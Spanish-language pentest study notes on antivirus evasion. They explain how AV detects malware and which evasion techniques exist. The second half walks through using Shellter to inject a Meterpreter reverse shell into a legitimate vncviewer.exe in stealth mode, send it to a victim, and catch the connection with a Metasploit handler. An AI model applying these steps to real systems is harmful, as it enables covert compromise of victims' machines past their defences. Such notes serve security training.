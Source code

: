 # Evasión con Shellter en un AV

Tags: #Shellter #AV 

La evasión de defensa consiste de técnicas que los adversarios usan para evitar la detección a través del compromiso. La técnica usada para la evasión de la defensa incluye instalar/desestabilizar el software de seguridad o ocultar/cifrar data y scripts. Los adversarios también, aprovechan y abusan de procesos para esconder o enmascarar sus malware.

El software antivirus normalmente utiliza detección basada en firmas, heuristica y comportamiento. 
1. Detección basada en firmas:  Una firma AV es una secuencia única de bytes que de manera única identifica malware. Como resultado, tendrá que asegurarse de que su exploit ofuscado o carga útil no coincide con ninguna firma conocida en la base de datos ANTIVIRUS. Podemos eludir la detccion basada en formas modificando la secuencia de bytes del malware, por lo tanto, cambiando la firma.
2. Detección basada en heuristica:  Se basa en reglas o decisiones para determinar si un binario es malicioso. También busca patrones específicos dentro del código o llamadas al programa. 
3. Detección basada en el comportamiento: Se basa en la identificación de malware mediante el monitoreo de su comportamiento. (Usado para nuevas cepas de malware)

Técnicas de evasión en disco:
1. Ofuscación: Se refiere al proceso de ocultar temporalmente algo importante, valioso o critico. La ofuscación reorganiza el código para que sea mas difícil de analizar o  RE (Ingeniería reversa).
2. Codificación: Codificar datos es un proceso que implica cambiar los datos a un nuevo formato utilizando un esquema. La codificación es un proceso reversible; los datos pueden codificar a un nuevo formato y decodificando a su formato original. 
3. Empaquetamiento: Generar un ejecutable con una nueva estructura binaria con un tamaño mas pequeño y por lo tanto, proporciona el payload con una nueva firma. 
4. Cifradores: Cifra el código o payloads y descifra el código cifrado en la memoria. La clave/función del descifrado generalmente se almacena en un stub. 

Técnicas de evasión en memoria:
1. Se enfoca en manipular la memoria y hace archivos no escribibles al disco.
2. Inyecta payload dentro de un proceso aprovechando varias APIs de Windows. 
3. El payload es también ejecutado en memoria en una amenaza separada. 

```bash 
❯ https://www.shellterproject.com/introducing-shellter/
```

## Shellter

```bash 
# Shellter ayuda a inyectar una ReverShell en un archivo legitimo ejecutables en Windows.

❯ apt install shellter                             # Instalamos Shellter, Shellter solo soporta 32 bit Payload
❯ apt install wine32
❯ dpkg --add-architecture i386 
```

```bash 
❯ cd /usr/share/windows-resources/shellter/        # Path donde se ecuentra Shellter

❯ wine shellter.exe                                # Ejecutamos Shellter
	❯ A                                           # Modo automatico 
	❯ /home/Desktop/AVBypass/vncviewer.exe        # Utilizaremos el 'vncviewer.exe' para inyectarle codigo malicioso
	❯ y                                           # Para que al momento de que se ejecute el .exe funcione con normalidad (Stealth mode)
	❯ L                                           # Listed payload or custom
	❯ 1                                           # Escogemos la opcion 1 (Meterpreter_Reverse_tcp)
	❯ <IP>                                        # Set LHOST del atacate
	❯ 443                                         # Set LPORT del atacante

# Solo debemos de pasar el nuevo archivo .exe a la maquina victima y ejecutarlo para obtener la Revershell. 
```

## Revershell Metasploit

```bash 
# Configuracion para recibir la conexion de la revershell

❯ use multi/handler 
	❯ set payload windows/meterpreter/reverse_tcp
	❯ set LHOST <IP>
	❯ set LPORT 443 
```